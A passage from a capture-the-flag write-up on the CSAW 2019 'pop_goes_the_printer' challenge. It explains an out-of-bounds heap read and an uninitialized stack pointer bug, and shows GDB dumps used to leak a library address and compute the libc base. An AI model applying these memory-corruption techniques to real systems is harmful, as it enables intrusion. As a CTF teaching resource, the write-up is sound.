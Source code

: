 ```objc
    }
    object_config.count = count;
    free(object_config.vals);
    // Here, object_config.vals is set to a heap pointer!
    object_config.vals = new_config;

    return 0;
}
```
It reads in a `to_copy` value and the global `object_config`’s new type.  Based on that type, it initializes `group_size` and sets `new_config` to some `calloc`d data.  Then, it effectively reads data from the user into `new_config`, and sets `config.vals` to `new_config`.  So `config.vals` is a heap pointer, and we can use that out-of-bounds read to leak information from the heap!  All we have to do is setup `object_config` to have type 2.

# Second Bug
I have some good news.  The next bug is right in front of us.  Lets take another look at [`setup_config(CCHBinaryDataReader*)`](https://github.com/osirislab/CSAW-CTF-2019-Quals/blob/e66c6a21e9ea7425010c5dfcb2fb4352ada5c0b1/pwn/pop_goes_the_printer/src/PGPObject.m#L26-L77).  We know `object_config.type` must be between 1 and 5, but the switch statement has no cases for 4 and 5!  Those values fall to `default`, and `new_config` never gets initialized to anything.  Whatever is already on the stack previously is the address that will be written to.

# Leak
As we saw, to get a leak, we need to send in a [`PGPPrintJob`](https://github.com/osirislab/CSAW-CTF-2019-Quals/blob/e66c6a21e9ea7425010c5dfcb2fb4352ada5c0b1/pwn/pop_goes_the_printer/src/PGPPrintJob.m) with version 2 objects.   We need one object of any type to trigger `setup_config()` so the `object_config.type == 2` and `object_config.vals` is a heap pointer.  We need another object with type `9` to trigger the out-of-bounds read of the heap data after `object_config.vals`.

Using my first object, I sent in `"FFFFFFFFFFFFFFFFFFFF"` to fill the new `object_config.vals` buffer.  I used GDB to examine memory around the `object_config.vals` buffer for good leak locations.

```
gdb-peda$ x/20xg $rax
0xfc5060:	0x0000004646464646	0x0000004646464646
0xfc5070:	0x0000004646464646	0x0000004646464646
0xfc5080:	0x0000000000000000	0x0000000000000051
0xfc5090:	0x0000000000000000	0x0000000000000000
0xfc50a0:	0x00007f454f75c000	0x0000000000000014
0xfc50b0:	0x0000000000f25460	0x0000000000000000
0xfc50c0:	0x00007f454f7f9700	0x0000000000000014
0xfc50d0:	0x000000000000000a	0x0000000000000071
0xfc50e0:	0x0000000000000000	0x0000000000000000
0xfc50f0:	0x00000000deadface	0x0000000000000000
```

I set `to_copy` to `4`, and `object_config.type` `case 2` initializes `group_size` to `5`, which explains the 4 `QWORD`s with their lower 5 bytes set to `0x46` (`"F"`).  The 8th `QWORD` from the beginning of the buffer (address `0xfc50a0`) contains an address from `libgnustep-base`.
```
gdb-peda$ vmmap 0x00007f454f75c000
Start              End                Perm	Name
0x00007f454f719000 0x00007f454f82b000 rw-p	/home/pgtp/libs/libgnustep-base.so.1.25
```
After running the program a few times, the offset from this address to the beginning of libc never changes, so we can use this address to determine the address of libc.
```
gdb-peda$ vmmap libc
Start              End                Perm	Name
0x00007f454e329000 0x00007f454e4ca000 r-xp	/home/pgtp/libs/libc.so.6
0x00007f454e4ca000 0x00007f454e6ca000 ---p	/home/pgtp/libs/libc.so.6
0x00007f454e6ca000 0x00007f454e6ce000 r--p	/home/pgtp/libs/libc.so.6
```